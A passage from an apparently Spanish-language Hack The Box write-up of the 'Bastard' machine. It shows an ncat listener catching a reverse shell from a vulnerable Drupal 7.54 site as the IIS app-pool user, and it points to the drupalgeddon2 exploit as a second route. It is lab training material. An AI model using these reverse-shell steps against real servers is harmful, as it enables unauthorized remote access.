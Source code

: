 

Nos en escucha por el puerto que configuramos en el `codigo` en mi caso en el puerto `443`. Finalmente seleccionamos en la opción `Preview`.


![](/assets/images/HTB/htb-writeup-Bastard/drupal12.PNG)



Y habriamos ganado acceso como el usuario `iis apppool\drupal`.


```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49279.
SOCKET: Shell has connected! PID: 2644
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
iis apppool\drupal

C:\inetpub\drupal-7.54>
```


Como segunda forma alternativa, podemos hacer uso del exploit `drupalgeddon2`. Podemos encontrar el exploit usando `searchsploit`.
